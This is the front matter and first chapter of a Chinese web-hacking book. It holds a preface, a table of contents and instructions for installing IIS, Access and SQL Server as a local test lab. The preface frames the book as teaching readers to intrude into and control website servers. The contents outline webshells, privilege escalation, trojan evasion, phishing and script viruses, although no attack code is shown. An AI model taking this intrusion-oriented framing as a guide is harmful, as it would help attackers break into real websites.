# 精通脚本黑客

曾云好 编著

- 常规脚本漏洞入侵大演练
- 各种常见脚本语言入门与提高
- 数据库的入门及其黑客技术
- ASP、PHP、JSP 程序漏洞的分析、挖掘与实战
- Web 2.0 下的黑客技术

www.nohack.cn

精通脚本黑客  
￥30元  
ISBN 978-7-900447-31-9  
NOHACK.CN

## 前言

目前国内书店关于脚本方面的书籍特别多，但这些书相对来讲理论性的知识偏多。更重要的是，这些书中介绍的例子，在安全性上都是漏洞百出，这样导致新学脚本的朋友写出来的程序同样是漏洞百出，典型的恶性循环。而当前主要讲述脚本程序漏洞方面的书籍却没有，所以《黑客手册》决定联合我出版《精通脚本黑客》一书。

《精通脚本黑客》是一本集合了脚本环境和黑客知识的网络安全基础教程。在一个大的脚本环境下，介绍了网站入侵、各种常见脚本语言的基础学习、脚本程序漏洞分析与利用等内容。网站入侵方面是为没有多少入侵经验或对脚本环境下的入侵技术没有了解的朋友而准备；而各种常见脚本语言的基础学习是为没有脚本语言基础但已有一定入侵经验的朋友而准备；等有了前面的基础后，就介绍如何在脚本程序中寻找各种漏洞并加以利用。本书的目的是用通俗的语言来讲述脚本环境下的各种安全问题，期间没有复杂的理论。

以下是本书的主题内容以及结构层次：

- 1. 熟悉 ASP、PHP、JSP 网站的搭建。告诉你网站是如何被架构的，进而为后面分析脚本程序漏洞时测试漏洞所用。
- 2. 常见的各种脚本攻击技术。全面、细致地介绍脚本环境下的各种黑客技术，如 cookie 欺骗、注入、跨站、文件包含、获取 webshell 及提权等等。让你可以轻松地入侵并控制一个网站服务器。
- 3. 让你轻松入门学习 HTML、JavaScript、VBScript 等客户端脚本语言，从而在本质上认识挂马、跨站等黑客技术，同时还有一些常见的脚本病毒的编写。
- 4. 数据库学习。先介绍 SQL 语言的基础学习，为后面分析程序漏洞打下坚实的基础。同时介绍 SQL Server、MySQL 等数据库下的高级黑客技术。
- 5. ASP 下的黑客技术。先给大家讲解 ASP 基础，让大家能够看懂 ASP 程序。之后，就介绍 ASP 程序中常见的漏洞，教大家如何分析 ASP 程序中的漏洞，如注入、跨站等等，同时还介绍一些 ASP 木马编写技术。最后，还用两个分析完整程序漏洞的例子作为实践，增加一些实战经验。
- 6. PHP 下的黑客技术。先给大家讲解 PHP 基础，让大家能够看懂 PHP 程序。之后，就介绍 PHP 程序中常见的漏洞，教大家如何分析 PHP 程序中的漏洞，如注射、文件包含漏洞等，同时还介绍一些 PHP 木马编写技术。最后，还用两个分析完整程序漏洞的例子作为实践，增加一些实战经验。
- 7. JSP 下的黑客技术。先给大家讲解 JSP 基础，让大家能够看懂 JSP 程序。之后，就介绍 JSP 程序中常见的漏洞，教大家如何分析 JSP 程序中的漏洞，如源代码泄露、注入等等，同时还介绍一些 JSP 木马编写技术。最后，还用两个分析完整程序漏洞的例子作为实践，增加一些实战经验。
- 8. Web 2.0 下的黑客技术。因为技术是在发展的，目前 Web 2.0 已经逐渐成为脚本的一个焦点。所以介绍了 Web 2.0 的核心技术 XML 和 Ajax 的安全问题。

**作者：**曾云好，男，江西泰和人。对 Windows 内核、软件漏洞技术、Web 安全都有广泛涉足，尤为擅长漏洞挖掘技术。联系 QQ：eskshell@gmail.com

## 致谢

- 1. 在本书中我引用了一些非常优秀文章的内容，这里要特别感谢剑心、LCX、王炜、萍水相逢、非零解、elin、光芒果、Hak_BaN、罗秉琨、天涯衰草、小天等人，还有其他的引用详见具体的内容，都已做了详细的说明。正是由于引用了他们的文章，使得本书中例子更加具有代表性。而且在每一章的最后，我都列举出了参考资料，目的就是方便读者在以后的学习过程中查阅资料（因为我在写书的过程中，深深体会到了查阅资料的辛苦程度）。
- 2. 还要感谢在学校里一直指导我学习的领导和老师。学习的过程中他们给了我很多帮助，在专业上给我指点迷津，给了我很多学习的经验，让我少走了很多弯路。同时，在条件上也提供了很多，例如在寒假留在学校编写本书的时候，依然为我提供网络，使得本书的编写过程非常顺利。
- 3. 感谢编辑土豆，在一起策划、一起构思的日子里，让我学到了很多东西。
- 4. 最后，要感谢我的父母，在背后他们一直都是我坚定的支持者。

## 目录

- 前言 ........................................................ 1
- 第一章 本地服务器的搭建 ...................................... 9
  - 1.1 WEB服务器简介 ......................................... 9
  - 1.2 ASP服务器的搭建 ...................................... 10
    - 1.2.1 IIS的安装 ........................................ 10
    - 1.2.2 ACCESS数据库的安装 ............................... 15
    - 1.2.3 SQL Server数据库的安装 .......................... 20
    - 1.2.4 ASP环境的测试 .................................... 27
  - 1.3 PHP服务器的搭建 ...................................... 36
    - 1.3.1 Apache的安装 ..................................... 36
    - 1.3.2 MySQL数据库的安装 ............................... 41
    - 1.3.3 PHP的安装 ........................................ 47
    - 1.3.4 PHP环境的测试 .................................... 50
  - 1.4 JSP服务器的搭建 ...................................... 55
    - 1.4.1 JDK的安装与配置 .................................. 55
    - 1.4.2 Tomcat的安装 ..................................... 57
    - 1.4.3 环境变量的设置及JSP环境的测试 .................... 61
    - 1.4.4 JSP环境的测试 .................................... 64
  - 总结： ................................................... 70
- 第二章 常规脚本漏洞演练 ..................................... 71
  - 2.1 Google Hack技术大演练 ................................ 71
  - 2.2 'or'='or'经典漏洞攻击 ................................ 102
  - 2.3 暴库漏洞攻击 ......................................... 105
    - 2.3.1 conn.asp暴库法 .................................. 106
    - 2.3.2 %5c暴库法 ....................................... 107
    - 2.3.3 暴库的常见问题和解决方法 ........................ 108
  - 2.4 cookie欺骗漏洞 ....................................... 110
  - 2.5 跨站漏洞 ............................................. 113
    - 2.5.1 一次跨站漏洞(XSS)的发掘 ........................ 114
    - 2.5.2 163、sina、sohu也玩跨站 ........................ 117
    - 2.5.3 再次挖掘中国博客网之跨站漏洞 .................... 121
  - 2.6 注入漏洞 ............................................. 127
    - 2.6.1 工具篇 ........................................... 128
    - 2.6.2 手工篇 ........................................... 149
  - 2.7 文件包含漏洞 ......................................... 178
  - 2.8 旁注攻击 ............................................. 183
  - 2.9 如何获取WebShell ..................................... 190
    - 2.9.1 上传 ............................................. 190
    - 2.9.2 后台备份及恢复 ................................... 198
    - 2.9.3 SQL导出 .......................................... 199
    - 2.9.4 写入过滤不完全 ................................... 201
  - 2.10 使用WebShell及提升权限 .............................. 207
    - 2.10.1 WebShell的基本使用方法 ......................... 207
    - 2.10.2 WebShell的提权 ................................ 215
    - 2.10.3 木马的加密与防杀 ................................ 218
  - 2.11 其他技术 ............................................. 220
    - 2.11.1 网络钓鱼 ........................................ 220
    - 2.11.2 社会工程学、心理学 .............................. 221
    - 2.11.3 常见的密码破解 .................................. 233
- 第三章 HTML入门 ............................................ 242
  - 3.1 什么是HTML语言 ....................................... 242
    - 3.1.1 第一个用HTML编写的网页 .......................... 244
    - 3.1.2 HTML语言的基本语法和格式 ........................ 244
  - 3.2 HTML的常用标记 ....................................... 245
    - 3.2.1 <html>、<head>、<title>和<body>及其他标记 ...... 245
  - 3.3 图片的插入及自定义头像跨站漏洞 ......................... 247
    - 3.3.1 图像的插入 ....................................... 247
    - 3.3.2 自定义头像跨站漏洞 ............................... 247
  - 3.4 超链接的建立 ......................................... 249
    - 3.4.1 文本链接 ......................................... 249
    - 3.4.2 图像链接 ......................................... 250
    - 3.4.3 超链接的target属性 .............................. 250
    - 3.4.4 下载文件 ......................................... 250
    - 3.4.5 脚本链接 ......................................... 251
    - 3.4.6 超链接的综合使用 ................................. 252
  - 3.5 表单 ................................................. 253
    - 3.5.1 什么是表单 ....................................... 253
    - 3.5.2 表单标记<FORM> .................................. 253
    - 3.5.3 输入标记<INPUT> ................................. 255
    - 3.5.4 文本域标记<TEXTAREA> ............................ 258
  - 3.6 框架 ................................................. 259
    - 3.6.1 框架集标记<FRAMESET> ............................ 260
    - 3.6.2 框架标记<FRAME> ................................ 263
    - 3.6.3 浮动框架<IFRAME> ............................... 264
  - 3.7 CSS层叠样式表 ........................................ 266
    - 3.7.1 层叠样式表的类型 ................................. 267
    - 3.7.2 层叠样式表的基本写法 ............................. 267
    - 3.7.3 CSS挂马技术 ...................................... 268
  - 3.8 结尾 ................................................. 269
- 第四章 JavaScript和VBScript入门 ............................ 270
  - 4.1 什么是JavaScript语言 ................................ 270
    - 4.1.1 JavaScript简介 .................................. 270
    - 4.1.2 JavaScript和事件 ................................ 271
    - 4.1.3 JavaScript代码的编写与执行 ...................... 273
  - 4.2 JavaScript基础 ....................................... 276
    - 4.2.1 语法规则 ......................................... 276
    - 4.2.2 动态生成页面内容 ................................. 277
    - 4.2.3 与用户交互的基本方法 ............................. 279
    - 4.2.4 变量和函数的声明与使用 ........................... 283
    - 4.2.5 对象 ............................................. 290
  - 4.3 什么是VBScript语言 ................................... 298
    - 4.3.1 VBScript概述 ..................................... 298
  - 4.4 VBScript基础 ......................................... 300
    - 4.4.1 VBScript编程基础 ................................. 300
    - 4.4.2 VBScript的控制语句 ............................... 302
    - 4.4.3 VBScript的过程和函数 ............................. 310
    - 4.4.4 VBScript中常用的函数 ............................. 313
  - 4.5 使用Cookie ........................................... 317
    - 4.5.1 什么是Cookie ..................................... 317
    - 4.5.2 Cookie的组成 ..................................... 321
    - 4.5.3 使用Cookie ....................................... 322
  - 4.6 正则表达式 ........................................... 329
    - 4.6.1 什么是正则表达式 ................................. 329
    - 4.6.2 创建正则表达式 ................................... 330
    - 4.6.3 正则表达式的字符串对象的常用方法 ................. 333
    - 4.6.4 初识防注入程序 ................................... 334
  - 4.7 跨站攻击详解 ......................................... 336
    - 4.7.1 跨站漏洞的成因 ................................... 336
    - 4.7.2 跨站漏洞攻击与防御详解 ........................... 337
    - 4.7.3 跨站漏洞实例解析 ................................. 345
    - 4.7.4 细谈挂马 ......................................... 373
  - 4.8 脚本病毒简介与分析 ................................... 376
    - 4.8.1 WSH简介 .......................................... 376
    - 4.8.2 脚本病毒的特点 ................................... 379
    - 4.8.3 脚本病毒原理分析 ................................. 380
- 第五章 数据库基础 .......................................... 387
  - 5.1 数据库概述 ........................................... 387
  - 5.2 关系数据库 ........................................... 388
    - 5.2.1 关系模型概述 ..................................... 388
  - 5.3 关系数据库语言SQL概述 ................................. 389
  - 5.4 利用SQL进行数据查询 .................................. 390
    - 5.4.1 创建数据表 ....................................... 390
    - 5.4.2 SQL数据查询 ...................................... 390
  - 5.5 利用SQL进行数据更新 .................................. 395
    - 5.5.1 INSERT语句 ....................................... 395
    - 5.5.2 UPDATE语句 ....................................... 396
    - 5.5.3 DELETE语句 ....................................... 396
  - 5.6 SQL Server ........................................... 397
    - 5.6.1 SQL注入Access导出WebShell ....................... 397
    - 5.6.2 SQL Server下的高级黑客技术 ........................ 397
  - 5.7 MySQL ................................................ 406

- 5.7.1 MySQL下的高级黑客技术........................................................406

## 第六章 ASP基础....................................................................408

- 6.1 ASP概述.....................................................................408
  - 6.1.1 什么是ASP...............................................................408
  - 6.1.2 ASP的特点...............................................................409
  - 6.1.3 ASP的文档结构...........................................................409
- 6.2 ASP常用的内置对象...........................................................416
  - 6.2.1 Request对象............................................................417
  - 6.2.2 Response对象...........................................................426
  - 6.2.3 Server对象.............................................................431
  - 6.2.4 Session对象............................................................434
- 6.3 ASP常用组件概述.............................................................436
  - 6.3.1 ASP组件概述............................................................437
  - 6.3.2 Scripting组件..........................................................438
- 6.4 ADO技术.....................................................................449
  - 6.4.1 Connection对象.........................................................449
  - 6.4.2 Recordset对象..........................................................451

## 第七章 ASP程序常见漏洞.............................................................453

- 7.1 'or'='or'经典漏洞代码分析...................................................453
- 7.2 cookies欺骗漏洞代码详细分析..................................................457
- 7.3 SQL注入漏洞(SQL Injection)..................................................458
  - 7.3.1 在URL中的注入漏洞代码分析...............................................459
  - 7.3.2 ASP中的搜索型注入漏洞代码分析...........................................462
  - 7.3.3 文本框输入内的注入代码分析...............................................467
  - 7.3.4 隐藏域HIDDEN下的注入代码分析............................................470
- 7.4 脚本跨站漏洞(XSS)...........................................................476
  - 7.4.1 构造HTML标记的跨站漏洞代码分析...........................................476
  - 7.4.2 利用系统提供的HTML标记的跨站............................................478
- 7.5 ASP程序上传漏洞代码分析......................................................482
  - 7.5.1 有组件文件上传..........................................................483
  - 7.5.2 无组件文件上传..........................................................486
  - 7.5.3 分析上传漏洞............................................................489
- 7.6 ASP木马技术初探.............................................................503
  - 7.6.1 一句话木马解析..........................................................503
  - 7.6.2 DIY.ASP小马分析.........................................................505
  - 7.6.3 ASP木马免杀............................................................507

## 第八章 ASP整站系统的安全性分析.....................................................523

- 8.1 SimpleBlog的漏洞分析及利用..................................................524
- 8.2 心情网络投票系统的漏洞分析...................................................530

## 第九章 PHP基础....................................................................538

- 9.1 PHP快速入门................................................................538
  - 9.1.1 什么是PHP..............................................................538
  - 9.1.2 在HTML中嵌入PHP........................................................539
  - 9.1.3 访问表单变量............................................................543
  - 9.1.4 变量...................................................................545
- 9.2 文件........................................................................546
  - 9.2.1 文件处理................................................................546
  - 9.2.2 打开文件................................................................546
  - 9.2.3 写文件..................................................................548
  - 9.2.4 读文件..................................................................548
- 9.3 字符串操作..................................................................549
  - 9.3.1 字符串的格式化..........................................................549
  - 9.3.2 字符串的匹配与替换......................................................550
- 9.4 代码重用....................................................................550
- 9.5 面向对象的PHP简介...........................................................554
  - 9.5.1 在PHP中创建类、属性和操作..............................................554
  - 9.5.2 类的实例化、使用及继承..................................................555
  - 9.5.3 异常处理简介............................................................557
- 9.6 使用PHP从Web访问MySQL数据库................................................558
  - 9.6.1 执行SQL命令............................................................559
- 9.7 PHP的高级技术................................................................560
  - 9.7.1 php.ini文件简介........................................................561
  - 9.7.2 与文件系统和服务器的交互................................................562
  - 9.7.3 会话控制................................................................565
  - 9.7.4 eval()函数及一句话木马..................................................566

## 第十章 PHP程序常见漏洞.............................................................568

- 10.1 PHP注射漏洞.................................................................568
  - 10.1.1 PHP下的数字型注射漏洞代码分析..........................................569
  - 10.1.2 PHP中的字符型注射漏洞代码分析..........................................572
  - 10.1.3 配置选项对注射攻击的影响..............................................576
- 10.2 脚本跨站漏洞.................................................................581
- 10.3 上传漏洞代码.................................................................587
- 10.4 包含文件漏洞.................................................................589
- 10.5 其他程序安全细节问题.........................................................594
  - 10.5.1 文件代码泄露...........................................................594
  - 10.5.2 文本数据库的安全问题...................................................595
  - 10.5.3 逻辑问题................................................................595
  - 10.5.4 讨论Cookie和Session的安全.............................................596
- 10.6 PHP一句话木马客户端简单解析.................................................597

## 第十一章 PHP整站系统的安全性分析...................................................601

- 11.1 Simplog系列漏洞分析.........................................................601
- 11.2 PHP系统常见防护措施及问题...................................................611

## 第十二章 JSP基础...................................................................618

- 12.1 JSP概述.....................................................................618
  - 12.1.1 JSP运行原理............................................................619
  - 12.1.2 第一个JSP页面..........................................................620
- 12.2 JSP语法.....................................................................621
  - 12.2.1 类......................................................................621
  - 12.2.2 Java程序片.............................................................624
  - 12.2.3 JSP指令...............................................................625
  - 12.2.4 JSP动作指令...........................................................626
- 12.3 内置对象....................................................................627
  - 12.3.1 request对象常用方法....................................................627
  - 12.3.2 response对象常用方法...................................................629
  - 12.3.4 session对象常用方法....................................................631
  - 12.3.5 application对象常用方法................................................631
  - 12.3.6 out对象简介............................................................632
- 12.4 文件操作....................................................................633
  - 12.4.1 文件类..................................................................633
  - 12.4.2 字节流..................................................................635
  - 12.4.3 字符流..................................................................637
- 12.5 JDBC接口....................................................................638
- 12.6 JavaBean和Servlet简介......................................................642

## 第十三章 JSP程序常见漏洞...........................................................648

- 13.1 JSP源代码泄露...............................................................648
- 13.2 跨站脚本攻击漏洞.............................................................653
- 13.3 注入漏洞代码分析.............................................................663
- 13.4 其他安全问题.................................................................668
- 13.5 JSP木马编写技术.............................................................673

## 第十四章 JSP整站系统的安全性分析...................................................677

- 14.1 JSP+Oracle手工注入.........................................................677
- 14.2 分析著名JSP商务系统CWBS安全性.............................................685

## 第十五章 Web 2.0下的脚本黑客技术..................................................706

- 15.1 XML的安全问题..............................................................706
  - 15.1.1 XML基础................................................................707
  - 15.1.2 XML安全简介............................................................713
  - 15.1.3 基于XML后台数据库的系统安全浅析........................................719
- 15.2 Ajax下的黑客技术............................................................724
  - 15.2.1 Ajax技术基础...........................................................724
  - 15.2.2 Ajax的黑客技术.........................................................730
- 15.3 Ajax蠕虫实战................................................................737
  - 15.3.1 Ajax_sohu博客的一个小蠕虫..............................................737
  - 15.3.2 Ajax蠕虫初体验.........................................................739
  - 15.3.3 跨站不仅仅是alert()....................................................743

从本章你可以学到如下几点：

- 1. ASP服务器的搭建
- 2. PHP服务器的搭建
- 3. JSP服务器的搭建

## 第一章 本地服务器的搭建

从本章起我们就开始脚本黑客技术的学习之旅，相信各位脚本黑客爱好者都已经非常期待了。不管你以前是否有计算机脚本语言的基础，只要你跟着我的思路一直学习下去，相信你一定会有很大的收获。要成为一名脚本方面的黑客高手也不是那么简单的，所以大家还要做好吃苦耐劳的心理准备。要学习脚本黑客技术的第一步就是要懂Web服务器，因为我们的脚本系统都是在Web服务器上运行，这是脚本的基础。所以本书的第一章就给大家介绍如何配置服务器和服务器后台的数据库，目的就是让大家能够独立完成一台Web服务器环境的搭建，这些都是脚本攻防最基础的知识。有了这个基础，大家以后在测试系统安全性的时候就可以在自己的计算机上进行试验。本章介绍ASP、PHP、JSP三种Web服务器环境的搭建。

### 1.1 Web服务器简介

Web服务器是指驻留于因特网上某种类型计算机的程序。当我们的浏览器（客户端）连到服务器上并请求文件时，服务器将处理该请求并将文件发送到该浏览器上，比如我们在浏览器的地址栏内输入http://www.google.com后就会返回Google的页面。服务器使用一个叫做HTTP（超文本传输协议）的协议进行信息交流，这就是人们常把它们称为HTTP服务器的原因。

Web服务器不仅能够存储信息，还能在用户通过Web浏览器提供的信息的基础上运行脚本和程序。例如，Google提供了一个发送新闻的功能，我们只要填入邮件地址以及一些新闻的关键字，点击提交之后，以后只要有新闻出现了我们提交的关键字，那么Google就会把这个新闻发送到我们的邮箱里去。

Web服务器可驻留于各种类型的计算机，从我们自己用的PC机到巨型的UNIX网络服务器，以及其他各种类型的计算机。目前Web服务器主要有以下两种形式存在于网络上。

- 1. 虚拟主机

虚拟主机是使用特殊的软硬件技术，把一台计算机主机分成一台台“虚拟”的主机，每一台虚拟主机都具有独立的域名和IP地址（或共享的IP地址），具有完整的因特网服务器功能。虚拟主机之间完全独立，在外界看来，每一台虚拟主机和一台独立的主机完全一样，用户可以利用它来建立完全属于自己的WWW、FTP和E-mail服务器。也就是说一台服务器上会同时运行着很多的网站。

虚拟主机技术的出现，是对因特网技术的重大贡献，是广大因特网用户的福音。由于多台虚拟主机共享一台真实主机的资源，每个用户承受的硬件费用、网络维护费用、通讯线路费用均大幅度降低，使因特网真正成为人人用得起的网络。现在，几乎所有的美国公司（包括一些家庭）均在网络上设立了自己的Web服务器。

虚拟主机服务提供者的服务器硬件构成的性能比较高，通讯线路也比较通畅，可以达到非常高的数据传输速度（可达45Mb/s），为用户提供了一个良好的外部环境；用户还不用负责机器硬件的维护、软件设置、网络监控、文件备份等工作。因而也就不需要为这些工作头痛和花钱了。目前国内很多ISP（互联网服务提供商）机构也提供这样的服务，比如电信。

- 2. 服务器托管

服务器托管即租用ISP机架位置，建立企业Web服务系统。企业主机放置在ISP机房内，由ISP分配IP地址，提供必要的维护工作，由企业自己进行主机内部的系统维护及数据的更新。这种方式特别适用于有大量数据需要通过因特网进行传递，以及有大量信息需要发布的单位。

### 1.2 ASP服务器的搭建

ASP是一种服务端脚本语言，它是微软推出的一种用来取代CGI的技术。简单地说，ASP是位于服务器端的脚本运行环境，通过这种环境，我们可以创建和运行动态的、交互式的Web应用程序。在我们浏览网页的时候，如果发现URL地址中含有asp结尾的文件的话，如http://www.xxx.com/article.asp?id=12，那么这个网站就是一个ASP构建的网站。下面我就教大家如何搭建一个ASP环境的服务器。Windows操作系统上提供的IIS服务器就是构建ASP环境的最好服务器，安装好了IIS后，就是要装服务器的后台数据库，毕竟服务器要进行数据的交互，这就少不了数据库。一般在ASP环境下最常见的组合是ASP+ACCESS和ASP+SQL Server两种，所以对于ACCESS和SQL Server这两种数据库我都会教大家如何安装。最后通过搭建一个ASP环境来作为实践的过程。

### 1.2.1 IIS的安装

IIS是一款功能非常强大的Web服务器，目前IIS已经发展到了6.0的版本，默认安装在Windows 2003操作系统中；而Windows XP/Windows 2000目前默认安装的是5.0的版本。因为考虑大家使用的操作系统目前大部分是Windows XP，所以为了和大家保持一致，我这里也用Windows XP来搭建ASP环境，其他的Windows操作系统的配置也差不多。虽然Windows XP在默认的情况下自带了IIS，但是并没有默认安装。安装IIS的步骤如下：

- 1. 首先进入系统的控制面板，从系统菜单【开始】→【控制面板】，进入控制面板界面，如图1-1所示。

图 1-1 控制面板界面

- 2. 在图 1-1 中找到【添加或删除程序】并双击它，弹出添加或删除程序管理界面，如图 1-2 所示。

图 1-2 添加或删除程序面板

- 3. 在图 1-2 中，单击【添加或删除 Windows 组件(A)】，弹出如图 1-3 所示的界面。

图 1-3 Windows 组件向导

- 4. 在图 1-3 中，大家首先选中第 2 项，即【Internet 信息服务(IIS)】，然后单击【详细信息(D)...】按钮，弹出如图 1-4 所示的界面。

图 1-4 Internet 信息服务(IIS)的详细安装列表

- 5. 在图 1-4 中，可以看到 IIS 包含了很多内容，但是对于我们搭建 ASP 环境来说，只要选中【万维网服务】、【FrontPage 2000 服务器扩展】、【Internet 信息服务管理单元】、【公用文件】就可以了。在默认情况下，可以单击【确定】按钮，回到图 1-3 所示的界面。

  如果这个时候鼠标选中【万维网服务】，可以单击【详细信息(D)...】按钮，查看万维网服务的安装列表，如图 1-5 所示。因为默认情况下，图 1-5 中的选项都会被安装，读者不需要修改，直接单击【确定】按钮就回到了图 1-4 中。

  有一点大家也是要知道：IIS 是一个综合服务器，它不仅能够安装 WWW 服务，同时还能够提供 FTP 服务以及 SMTP 服务。

图 1-5 万维网服务安装列表

- 6. 在图 1-4 中单击【下一步】按钮，就进入文件安装拷贝阶段了，如图 1-6 所示。

图 1-6 安装拷贝文件

在文件的复制过程中，系统会提示用户插入 Windows XP 的安装光盘，我们只需要插入光盘即可，继续安装直到结束。IIS 安装完成的界面如图 1-7 所示。

图 1-7 IIS 安装完成

安装完成之后，需要测试一下 IIS 服务器是否成功。测试的方法很简单，只要打开浏览器，在地址栏中输入“http://localhost”或者“http://127.0.0.1”，如果出现了如图 1-8 所示的结果，就表示服务器安装成功。

图 1-8 IIS 服务器安装成功

安装完成 IIS 后，并不能够说就搭建好了一个 ASP 环境。我们还要安装 ASP 环境的后台数据库。对于 ASP 来说，常见的后台数据库为 ACCESS 和 SQL Server 两种。在安装完数据库之后，我们就要对 IIS 做一些配置，这样一个完整的 ASP 环境就搭建好了，可以非常方便地在上面发布网站。

## 1.2.2 ACCESS 数据库的安装

一个 ASP 环境自然少不了后台数据库的支持，如果仅仅只有 IIS 的话，还无法搭建一个 ASP 环境。目前 ASP 网站的后台数据库几乎全部是 ACCESS 或者 SQL Server，这里本节及下一节就介绍这两种数据库的安装及基本使用。

Access 数据库是目前使用非常广泛的一种桌面型关系数据库，广泛应用于中小型管理系统中。Access 除了能够作为各种编程语言的数据库之外，本身也是一种数据库开发工具。

Access 数据库是 Microsoft 公司开发的一套桌面数据库，是微软 Office 办公套件的重要组成部分。其特点如下：

- 1. 提供了数据库最常用的功能，使用便捷；
- 2. 系统资源占用低，不需要数据库服务器的支持；
- 3. 与 Office 版软件紧密集成，便于将数据库迁移到 SQL Server 上。

不过其缺点是无法支持较大的数据量，不支持数据库高级特性，如并发访问、事务处理等等。但由于它快速灵巧，小型网站多数采用它作为后台数据库。

Access 经过了若干年的发展，已经换了多个版本。从 Access 97 开始就基本成为一个比较成熟的版本了。这里给大家安装的是 Access 2003 版本，在安装之前肯定要先找一张 Access 的安装盘，不过单独的 Access 安装盘基本上没有。Access 通常是和 Office 一起发行的，所以我这里安装的就是 Office 2003 光盘。如果没有光盘的话，可以到网上下载 Office 的压缩包到本地计算机中，然后再安装，结果都是一样的。

将 Office 2003 放入光驱中，一般会自动播放或者直接进入安装盘目录，双击安装文件“SETUP.EXE”，进入安装界面，如图 1-9 所示。

图 1-9 Office 2003 的启动安装界面

启动安装向导后，就会进入安装界面。不过在安装之前要求我们输入验证码，在光盘目录下有一个 CD-KEY.TXT 的文件，把它复制到上面去就可以了，如图 1-10 所示。

图 1-10 输入 Office 安装时的注册码

单击“下一步”就进入了图 1-11 所示的界面，我们在里面输入一些相关信息就可以，输入什么由自己决定。

图 1-11 输入用户的安装信息

单击“下一步”就进入了如图 1-12 所示的界面，在图中只需选中“我接受”这个复选框就可以进入下一步操作。

图 1-12 最终用户许可协议

进入到图 1-13 中，就要求我们按照哪一种安装类型和安装路径进行设置了。安装类型我们选择“自定义安装”，安装位置按照默认即可，单击进入下一步。

图 1-13 设定安装类型及路径

因为采用的是自定义安装，所以我们要选择安装哪些软件。这里是安装 Access，所以这个一定要选上，至于其他的就看个人喜好，如图 1-14 所示。

图 1-14 自定义安装

进入下一步就可看到软件安装的大致情况，如图 1-15 所示。

图 1-15 安装摘要

再单击“安装”按钮就进入安装阶段了，并显示安装进度，如图 1-16 所示。

图 1-16 安装进度

安装结束后，出现如图 1-17 所示的界面。我们可以选择“删除安装文件”，重新启动后，Access 数据库就算安装完了。

图 1-17 Access 数据库安装完成

这样，对于使用 Access 作为后台数据库，就可以顺利在本地发布了。

#### 1.2.3 SQL Server 数据库的安装

SQL Server 是一个关系数据库管理系统，是 Microsoft 推出的新一代数据管理与分析软件。SQL Server 是一个全面的、集成的、端到端的数据解决方案，它为企业中的用户提供了一个安全、可靠和高效的平台用于企业数据管理和商业智能应用，所以它适合大型一些的网站使用。目前微软已经推出了 SQL Server 2005 数据库，不过目前大部分网站依然采用 SQL Server 2000 版本。为了符合实际情况，这里我也选用 SQL Server 2000 来介绍安装。

SQL Server 的安装及使用要比 Access 复杂得多。SQL Server 2000 也有好几个版本，如企业版、标准版、个人版及开发者版。同时在安装 SQL Server 2000 后我们可以进行数据库的开发工作，所以这里介绍开发版的安装。其他版本安装过程都差不多。

准备好了 SQL Server 2000 安装盘后，放入光驱然后进入目录，双击“SETUP.EXE”文件，进入安装界面，如图 1-18 所示。

图 1-18 SQL Server 2000 安装界面

因为采用开发版，所以我们点击进去就可以进入 SQL Server 2000 的安装向导了，如图 1-19 所示。

图 1-19 SQL Server 安装向导

点击“下一步”就要选择安装的计算机了。因为我们是安装在本地计算机中，所以选择“本地计算机”，如图 1-20 所示。

图 1-20 选择数据库安装的计算机

单击“下一步”就进入图 1-21 所示的界面，它让我们选择创建一个新的 SQL Server 实例，默认选项即可。而“高级选项”则是设定安装程序，使得在无人的情况下也能够安装，但不鼓励，这里不改变选择。

图 1-21 选择 SQL Server 实例

单击“下一步”就要求输入用户的一些基本信息，按照提示输入一些信息就可以了，如图 1-22 所示。之后进入“软件许可协议”，选择“是”就进入下一步。

图 1-22 输入用户信息

在同意软件许可协议后，就要选择数据库的安装方式。因为要进行开发，所以选择第二项“服务器和客户端工具”，如图 1-23 所示。

图 1-23 安装定义

点击“下一步”进入下一个安装界面，如图 1-25 所示。它要求用户选择创建的数据库实例名，选择默认值即可。

图 1-25 创建 SQL Server 的实例名

单击“下一步”进入用户选择安装类型，一般只需要选择“典型”安装，然后选择安装路径。为了管理方便，可以将两个路径设置相同。这里设定的路径为“C:\Program Files\Microsoft SQL Server”，如图 1-26 所示。点击“下一步”进入“服务账户”界面，如图 1-27 所示。

图 1-26 安装类型

图 1-27 服务账户

服务账户主要是让用户选择登录数据库账户的设置。如果有域管理，则可以使用“使用域用户账户”，这里我们选择“使用本地系统账户”就可以了。点击“下一步”就进入“身份验证模式”对话框，如图 1-28 所示。

图 1-28 身份验证模式

身份验证模式一般有两种，一种是仅仅依靠 Windows 系统的身份验证模式，另外一种是混合模式，即 Windows 身份验证和 SQL Server 身份验证。可以在下面的文本框中输入密码，如果不想输入密码则可以把下面的“空密码”复选框选上。不过这里我强烈建议大家采用混合模式，而且一定要输入密码，千万不要选上“空密码”复选框。有过入侵经验的朋友应该知道，有一些网站的 SQL Server 数据库就是空密码，那么这就相当于向我们打开了入侵大门，不用费什么劲就控制了数据库服务器。

设置好了身份验证模式后，点击“下一步”就可以进行数据库安装了，如图 1-29 所示。

图 1-29 开始安装数据库

点击“下一步”按钮就开始复制文件，如图 1-30 所示。安装完毕后，显示出安装完毕对话框，如图 1-31 所示。

图 1-30 复制文件

图 1-31 安装完毕

这样，SQL Server 就安装完毕了。不过，要使用 SQL Server 之前必须启动它。启动方式很多，最简单就是进入【开始】→【所有程序】→【Microsoft SQL Server】，单击“服务器管理器”程序，如图 1-32 所示。

图 1-32 服务器管理器

如果要启动服务，只需要单击“开始/继续”就可以了。启动以后，就可以看到一个带有绿色箭头的小图标出现在任务栏右侧的系统托盘处；如果为红色，则表示启动失败。通常安装正常的话，不会出什么问题。

#### 1.2.4 ASP 环境的测试

把 IIS 和数据库安装好之后，就要对 IIS 进行配置，配置后即可发布 ASP 网站。

要配置 IIS，首先要进入 IIS 管理器。同安装 IIS 一样，首先进入【控制面板】，找到【管理工具】，双击打开它，如图 1-33 所示。

图 1-33 进入管理工具

要进行 IIS 的配置，可以按照下面的步骤来：双击【Internet 信息服务】，进入如图 1-34 所示的 IIS 管理器。

图 1-34 IIS 管理器

在图 1-34 中，可以看到左边的属性区域是 IIS 提供的服务，右边视图栏显示的是具体信息。由于 ASP 属于 WWW 服务，所以只要关心树型结构中的【网站】就可以了。要进行 IIS 的配置，可以通过 IIS 管理器的菜单栏来进行，也可以通过弹出式菜单来管理。

注意：在 IIS 提供服务的时候，首先要启动网站服务。做法是选中【默认网站】，然后通过工具栏上面的黑色三角形按钮来启动该服务。启动后，黑色三角按钮失效，此时可以通过“■”按钮来停止服务，或者通过“∥”按钮暂停服务。

